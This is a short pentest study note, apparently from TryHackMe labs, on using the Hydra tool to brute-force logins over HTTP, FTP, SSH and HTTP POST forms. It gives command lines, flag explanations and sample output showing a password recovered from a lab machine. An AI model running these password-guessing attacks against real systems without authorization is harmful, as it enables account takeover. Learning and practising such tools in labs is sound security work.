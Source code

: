 # Hydra
#pentest/tryhackme

## What
Tool to guess username/password from different protocols like http, ftp, ssh and so on. 

## Example
Use the `-f` flag to stop hydra execution after finding the first match.

```shell
$ hydra -l bob -P /usr/share/wordlists/metasploit/unix_passwords.txt -s port -f <machine-ip> http-get /protected
...
[DATA] attacking http-get://10.10.252.236:80/protected
[80][http-get] host: 10.10.252.236   login: bob   password: bubbles
[STATUS] attack finished for 10.10.252.236 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

## FTP
`hydra -l user -P passlist.txt ftp://10.10.84.187`

## SSH
`hydra -l <username> -P <full path to pass> 10.10.84.187 -t 4 ssh`

## HTTP Post
`hydra -l <username> -P <wordlist> 10.10.84.187 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

Where:
* `-V` -> verbose
* `^USER^` -> Where the username specified by `-l` will be replaced
* `^PASS^` -> Where each password from the wordlist specified by `-P` will be replaced
* `:F` -> The word that appears on the page if the login is incorrect

## How
![](Hydra/029C2C0B-3FAD-45D1-BF73-BF626723F082.png)